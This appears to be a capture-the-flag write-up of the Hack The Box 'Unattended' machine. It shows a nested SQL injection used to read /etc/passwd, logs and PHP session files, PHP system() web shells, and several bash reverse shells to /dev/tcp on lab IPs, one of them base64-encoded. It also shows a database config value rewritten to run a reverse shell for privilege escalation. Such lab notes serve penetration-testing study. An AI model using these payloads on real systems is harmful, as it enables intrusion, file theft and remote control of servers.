 ```sql
$sql = "SELECT path from filepath where name = '".$tpl."'";


SELECT path from filepath where name = whatev UNION select /etc/passwd
```

Since whatev does not exist, the only return will be the path I passed, `/etc/passwd`.

```sql
25' union select "doesntmatter' union select '/etc/passwd' -- -" -- -
```

The first union select is for getTplFromID to return this string `"doesntmatter' union select '/etc/passwd' -- -"` for the second $sql as the param $tpl.


```url
https://www.nestedflanders.htb/index.php?id=25' union select "doesntmatter' union select '/etc/passwd' -- -" -- -

https://www.nestedflanders.htb/index.php?id=25' union select "doesntmatter' union select '/var/log/nginx/access.log' -- -" -- -

https://www.nestedflanders.htb/index.php?id=25' union select "doesntmatter' union select '/var/lib/php/sessions/sess_htjflf5t1ssuj9rihk80v3noj3' -- -" -- -
```

Get the session id from cookies

* https://academy.hackthebox.com/module/23/section/252 - File Inclusion

nginx access log is slightly better for resending it on browser. I need to put both cookies at the first time for the php session alternate method.

### Enum for Foothold
TCP ports that are allowed to make outbound connections through iptables

`<?php system('cat /etc/iptables/rules.v46'); ?>`

```bash
www-data@unattended:/home$ cat /etc/iptables/rules.v4
cat /etc/iptables/rules.v4
# Generated by iptables-save v1.6.0 on Fri Dec  1 05:54:27 2023
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [42:2814]
-A INPUT -i lo -j ACCEPT
-A INPUT -i ens160 -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -i ens160 -p tcp -m multiport --dports 80,443 -j ACCEPT
-A INPUT -i ens160 -p icmp -j ACCEPT
-A FORWARD -m state --state RELATED,ESTABLISHED -j ACCEPT
-A FORWARD -j DROP
-A OUTPUT -o lo -j ACCEPT
-A OUTPUT -o ens160 -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o ens160 -p tcp -m multiport --dports 80,443 -j ACCEPT
-A OUTPUT -o ens160 -p icmp -j ACCEPT
COMMIT
```

### Foothold
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'
```

or php way directly

```php
echo -n 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1 &' | base64

<?php system('echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDMgMD4mMQ==| base64 -d|
bash'); ?>
```

### Enum
##### System Hardening
* https://linux-audit.com/linux-system-hardening-adding-hidepid-to-proc/
* https://0xdf.gitlab.io/2019/08/24/htb-unattended.html#system-hardening

### Shell as guly
```bash
MariaDB [neddy]> update config set option_value = "bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'" where id = 86;
<sh -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'" where id = 86;             
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [neddy]> select * from config where option_name = 'checkrelease'
select * from config where option_name = 'checkrelease'
    -> ;
;
+----+--------------+-----------------------------------------------------+
| id | option_name  | option_value                                        |
+----+--------------+-----------------------------------------------------+
| 86 | checkrelease | /home/guly/checkbase.pl;/home/guly/checkplugins.pl; |
+----+--------------+-----------------------------------------------------+
```

It run so fast that I got my shell first.

### Enum as guly
* https://wiki.debian.org/SystemGroups

```bash
guly@unattended:~$ groups
groups
guly cdrom floppy audio dip video plugdev grub netdev
guly@unattended:~$ find / -group grub 2>/dev/null
find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-13-amd64
/boot/initrd.img-4.9.0-8-amd64
/boot/initrd.img-4.19.0-25-amd64
```